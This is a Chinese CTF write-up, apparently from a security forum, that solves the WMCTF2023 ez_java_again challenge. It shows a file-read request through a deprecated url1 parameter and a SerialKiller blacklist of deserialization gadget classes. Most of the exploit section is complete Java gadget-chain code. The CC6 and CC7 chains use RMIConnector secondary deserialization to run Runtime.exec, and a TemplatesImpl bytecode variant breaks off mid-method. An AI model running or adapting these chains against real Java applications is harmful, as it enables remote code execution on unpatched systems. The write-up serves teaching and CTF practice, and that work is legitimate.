# 从WMCTF2023_ez_java_again开始的RMIConnector二次反序列化学习-先知社区

> **来源**: https://xz.aliyun.com/news/18145  
> **文章ID**: 18145

---

## 环境搭建

这里用的是[CTF复现计划](https://www.yuque.com/dat0u/ctf/en3rym0131fuby60#)里的docker进行搭建的。

docker命令

```
docker run -it -d -p 12345:8080 -e FLAG=flag{8382843b-d3e8-72fc-6625-ba5269953b23} lxxxin/wmctf2023_ezjavaagainrev
```

访问12345端口即可



## 解题

首先看到题目中有一个按钮，点击后没啥反应，随后进行查看源代码以及抓包。





抓包到了url参数，并且源码中有url1这个参数，并说明了有安全问题已经被废弃掉了。

因此使用url1这个参数来进行文件读取。

```
/Imagefile?url1=file:///usr/local/tomcat/webapps/ROOT/WEB-INF/classes/com/ctf/help_me/%23java
```



将这俩个文件夹里的文件都读取出来，这个环境里面的.class文件都可以直接读取然后直接放到idea里面查看源码。

直接看他造成反序列化的CmdServlet.class这个类



其中过滤在`/WEB-INF/classes/config/serialkiller.xml`中

```
<?xml version="1.0" encoding="UTF-8"?>
<!-- serialkiller.conf -->
<config>
    <refresh>6000</refresh>
    <mode>
        <!-- set to 'false' for blocking mode -->
        <profiling>false</profiling>
    </mode>
    <logging>
        <enabled>false</enabled>
    </logging>
    <blacklist>
        <!-- ysoserial's CommonsCollections1,3,5,6 payload  -->
        <regexp>org\.apache\.commons\.collections\.Transformer$</regexp>
        <regexp>org\.apache\.commons\.collections\.functors\.InstantiateFactory$</regexp>
        <regexp>com\.sun\.org\.apache\.xalan\.internal\.xsltc\.traxTrAXFilter$</regexp>
        <regexp>org\.apache\.commons\.collections\.functorsFactoryTransformer$</regexp>

        <regexp>javax\.management\.BadAttributeValueExpException$</regexp>
        <regexp>org\.apache\.commons\.collections\.keyvalue\.TiedMapEntry$</regexp>
        <regexp>org\.apache\.commons\.collections\.functors\.ChainedTransformer$</regexp>
        <regexp>com\.sun\.org\.apache\.xalan\.internal\.xsltc\.trax\.TemplatesImpl$</regexp>
        <regexp>com\.sun\.org\.apache\.xalan\.internal\.xsltc\.trax\.TrAXFilter$</regexp>
        <regexp>java\.security\.SignedObject$</regexp>

        <regexp>org\.apache\.commons\.collections\.Transformer$</regexp>
        <regexp>org\.apache\.commons\.collections\.functors\.InstantiateFactory$</regexp>
        <regexp>com\.sun\.org\.apache\.xalan\.internal\.xsltc\.traxTrAXFilter$</regexp>
        <regexp>org\.apache\.commons\.collections\.functorsFactoryTransformer$</regexp>
        <!-- ysoserial's CommonsCollections2,4 payload  -->
        <regexp>org\.apache\.commons\.beanutils\.BeanComparator$</regexp>
        <regexp>org\.apache\.commons\.collections\.Transformer$</regexp>
        <regexp>com\.sun\.rowset\.JdbcRowSetImpl$</regexp>
        <regexp>java\.rmi\.registry\.Registry$</regexp>
        <regexp>java\.rmi\.server\.ObjID$</regexp>
        <regexp>java\.rmi\.server\.RemoteObjectInvocationHandler$</regexp>
        <regexp>org\.springframework\.beans\.factory\.ObjectFactory$</regexp>
        <regexp>org\.springframework\.core\.SerializableTypeWrapper\$MethodInvokeTypeProvider$</regexp>
        <regexp>org\.springframework\.aop\.framework\.AdvisedSupport$</regexp>
        <regexp>org\.springframework\.aop\.target\.SingletonTargetSource$</regexp>
        <regexp>org\.springframework\.aop\.framework\.JdkDynamicAopProxy$</regexp>
        <regexp>org\.springframework\.core\.SerializableTypeWrapper\$TypeProvider$</regexp>
        <regexp>org\.springframework\.aop\.framework\.JdkDynamicAopProxy$</regexp>
        <regexp>java\.util\.PriorityQueue$</regexp>
        <regexp>java\.lang\.reflect\.Proxy$</regexp>
        <regexp>javax\.management\.MBeanServerInvocationHandler$</regexp>
        <regexp>javax\.management\.openmbean\.CompositeDataInvocationHandler$</regexp>
        <regexp>java\.beans\.EventHandler$</regexp>
        <regexp>java\.util\.Comparator$</regexp>
        <regexp>org\.reflections\.Reflections$</regexp>
    </blacklist>
    <whitelist>
        <regexp>.*</regexp>
    </whitelist>
</config>
```

根据批注以及xml文件可以发现其中过滤了`ChainedTransformer，TrAXFilter`等类，将cc1-6基本上全ban了，但是他没有禁用`InvokeTransformer`这一关键类以及cc7这条链的入口点函数，说明这个类以及cc7的入口点应该是解题必备的。

根据上面的思路进行构造，将cc7的入口点直接和`InvokeTransformer`进行组合操作，中间不调用`ChainedTransformer`，但是现在是有一个问题的，就是runtime是无法序列化的，又不能调用`ChainedTransformer`，所以这里需要一个新的可以执行命令的方法，又或者可以进行二次反序列化，因此这里使用RMI二次反序列化进行绕过。

### RMIConnector二次反序列化

#### 原理

RMIConnector是RMI中负责远程连接的类，位于`javax.management.remote.rmi.RMIConnector`。

首先看到其`findRMIServerJRMP`方法



可以发现其接受一个base64的字符串并将其解密并进行了反序列化操作，也就是`oin.readObject();`继续向上找谁调用了`findRMIServerJRMP`，并且传入的base64是可控的，找到`findRMIServer`这个方法。



可以发现，当path开头为/stub/时将会调用`findRMIServerJRMP`，并且将传入截取之后的path，继续向上寻找，找到connct中调用了该方法。



当然调用条件为rmiServer=null，寻找可以让rmiServer为null的构造方法，找到RMIConnector



其只构造`JMXServiceURL`和`environment`完美符合条件。

所以只需要构造成这样，然后可以使用cc链对rmiConnector的connct方法进行调用即可触发二次反序列化。

```
JMXServiceURL jmxServiceURL = new JMXServiceURL("service:jmx:rmi://");
setFieldValue(jmxServiceURL, "urlPath", "/stub/base64string");
RMIConnector rmiConnector = new RMIConnector(jmxServiceURL, null);
```

因为不需要多次调用invokerTransformer，所以无需使用chainedTransformer，那就会又有一个问题，就是transform的key(input)应该如何传入。



如果可以使用TiedMapEntry的话可以直接将需要的类传给他的第二个参数，由于没有`ConstantTransformer`，这将会直接改变key的值(cc1中ConstantTransformer的作用)。

#### payload

cc6调用RMIConnector：

```
package org.example.RMIConnector;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.remote.JMXServiceURL;
import javax.management.remote.rmi.RMIConnector;
import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
import java.util.HashSet;
import java.util.Map;

public class RMIConnector2 {
    public static void main(String[] args) throws Exception{
        JMXServiceURL jmxServiceURL = new JMXServiceURL("service:jmx:rmi://");
        setFieldValue(jmxServiceURL, "urlPath", "/stub/"+getCC6Payload("calc"));
        RMIConnector rmiConnector = new RMIConnector(jmxServiceURL, null);

        InvokerTransformer invokerTransformer = new InvokerTransformer("connect", null, null);

        HashMap<Object,Object> map = new HashMap<>();
        Map<Object,Object> lazymap =  LazyMap.decorate(map,new ConstantTransformer(1));

        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazymap,rmiConnector);
        HashMap<Object,Object> map1 = new HashMap<>();
        map1.put(tiedMapEntry,"aaa");
        lazymap.remove(rmiConnector);
        setFieldValue(lazymap,"factory", invokerTransformer);

        Serialize(map1);
        Unserialize("ser.bin");

    }
    public static String getCC6Payload(String cmd) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{cmd})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object, Object> hashMap = new HashMap<>();
        Map lazyMap = LazyMap.decorate(hashMap, new ConstantTransformer("useless"));
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "abc");
        HashMap<Object, Object> hashMap2 = new HashMap<>();
        hashMap2.put(tiedMapEntry, "def");
        //修改为HashSet调用readObject方法
        HashSet<Object> hashSet = new HashSet<>();
        setFieldValue(hashSet, "map", hashMap2);
        lazyMap.remove("abc");
        setFieldValue(lazyMap, "factory", chainedTransformer);
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(hashSet);
        return Base64.getEncoder().encodeToString(barr.toByteArray());
    }

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static void Serialize(Object obj) throws IOException {
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        objectOutputStream.writeObject(obj);

    }

    public static Object Unserialize(String Filename) throws IOException,ClassNotFoundException{

        ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = objectInputStream.readObject();
        return obj;

    }
}
```



### 绕过黑名单

当然在这个题中TiedMapEntry是被禁用了的，同之前的思路还是使用cc7的入口点来调用RMIConnector。

这里需要注意一点的就是key的设置，由于这里没有TiedMapEntry，所以key是无法直接反射进行传参的，并且LazyMap是基于hashMap1和hashMap2进行懒加载的，所以在实际储存和访问key时需要先反射来访问hashMap1中的table数组，从中获取到我们需要修改的key的Node对象(这个对象中包含了key和value)，对该node对象进行反射修改key。

因此应该这样修改key的值

```
        Field table = hashMap1.getClass().getDeclaredField("table");
        table.setAccessible(true);
        Object[] array = (Object[])table.get(hashMap1);
        Object node = array[0];
        if(node == null){
            node = array[1];
        }
        Field key = node.getClass().getDeclaredField("key");
        key.setAccessible(true);
        key.set(node, Rmiconnector);
```

通过调试可以看到值的改变，首先可以看到table数组中的值为node对象



然后看到其中的key和value



继续调试，发现key从1被替换为rmiConnector



cc7调用RMIConnector：

```
package org.example.RMIConnector;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.remote.JMXServiceURL;
import javax.management.remote.rmi.RMIConnector;
import java.io.*;
import java.lang.reflect.Field;
import java.util.*;

public class RMIConnector1 {
    public static void main(String[] args) throws Exception {
        JMXServiceURL jmxServiceURL = new JMXServiceURL("service:jmx:rmi://");
        setFieldValue(jmxServiceURL, "urlPath", "/stub/"+getCC6Payload("calc"));
        RMIConnector Rmiconnector = new RMIConnector(jmxServiceURL, null);

        InvokerTransformer invokerTransformer = new InvokerTransformer("connect", null, null);

        Map hashMap1 = new HashMap();
        Map hashMap2 = new HashMap();
        Map map1 = LazyMap.decorate(hashMap1, new ConstantTransformer(1));
        Map map2 = LazyMap.decorate(hashMap2, invokerTransformer);
        map1.put("1", "yy");
        map2.put("zZ", Rmiconnector);

        Hashtable hashtable = new Hashtable();
        hashtable.put(map1, 1);
        hashtable.put(map2, 1);

        Field table = hashMap1.getClass().getDeclaredField("table");
        table.setAccessible(true);
        Object[] array = (Object[])table.get(hashMap1);
        Object node = array[0];
        if(node == null){
            node = array[1];
        }
        Field key = node.getClass().getDeclaredField("key");
        key.setAccessible(true);
        key.set(node, Rmiconnector);

//        Serialize(hashtable);
//
//        byte[] bytes = serialize(hashtable);
//        System.out.println(Base64.getEncoder().encodeToString(bytes));
        Unserialize("ser.bin");


    }
    public static String getCC6Payload(String cmd) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{cmd})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object, Object> hashMap = new HashMap<>();
        //随便设置一个值，防止后面再执行put方法的时候调用链子
        Map lazyMap = LazyMap.decorate(hashMap, new ConstantTransformer("useless"));
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "abc");
        HashMap<Object, Object> hashMap2 = new HashMap<>();
        hashMap2.put(tiedMapEntry, "def");
        //修改为HashSet调用readObject方法
        HashSet<Object> hashSet = new HashSet<>();
        setFieldValue(hashSet, "map", hashMap2);
        lazyMap.remove("abc");
        setFieldValue(lazyMap, "factory", chainedTransformer);
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(hashSet);
        return Base64.getEncoder().encodeToString(barr.toByteArray());
    }
    public static void setFieldValue(Object obj, String field, Object val) throws Exception{
        Field dField = obj.getClass().getDeclaredField(field);
        dField.setAccessible(true);
        dField.set(obj, val);
    }
    public static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        return baos.toByteArray();
    }

    public static Object Unserialize(String Filename) throws IOException,ClassNotFoundException{

        ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = objectInputStream.readObject();
        return obj;

    }
    public static void Serialize(Object obj) throws IOException {
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        objectOutputStream.writeObject(obj);

    }
}
```

当然二次反序列化也可以调用其他的链子并不一定要是cc6，也可以直接加载字节码。

```
package org.example.RMIConnector;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.remote.JMXServiceURL;
import javax.management.remote.rmi.RMIConnector;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.*;

public class RMIConnector1 {
    public static void main(String[] args) throws Exception {
        JMXServiceURL jmxServiceURL = new JMXServiceURL("service:jmx:rmi://");
        setFieldValue(jmxServiceURL, "urlPath", "/stub/"+getCC11Payload());
        RMIConnector Rmiconnector = new RMIConnector(jmxServiceURL, null);

        InvokerTransformer invokerTransformer = new InvokerTransformer("connect", null, null);

        Map hashMap1 = new HashMap();
        Map hashMap2 = new HashMap();
        Map map1 = LazyMap.decorate(hashMap1, new ConstantTransformer(1));
        Map map2 = LazyMap.decorate(hashMap2, invokerTransformer);
        map1.put("1", "yy");
        map2.put("zZ", Rmiconnector);

        Hashtable hashtable = new Hashtable();
        hashtable.put(map1, 1);
        hashtable.put(map2, 1);

        Field table = hashMap1.getClass().getDeclaredField("table");
        table.setAccessible(true);
        Object[] array = (Object[])table.get(hashMap1);
        Object node = array[0];
        if(node == null){
            node = array[1];
        }
        Field key = node.getClass().getDeclaredField("key");
        key.setAccessible(true);
        key.set(node, Rmiconnector);

        Serialize(hashtable);
//
//        byte[] bytes = serialize(hashtable);
//        System.out.println(Base64.getEncoder().encodeToString(bytes));
        Unserialize("ser.bin");

    }
    public static String getCC11Payload() throws Exception {
        TemplatesImpl templates = new TemplatesImpl();
        Class tc=templates.getClass();
        Field nameField = tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates,"aaa");
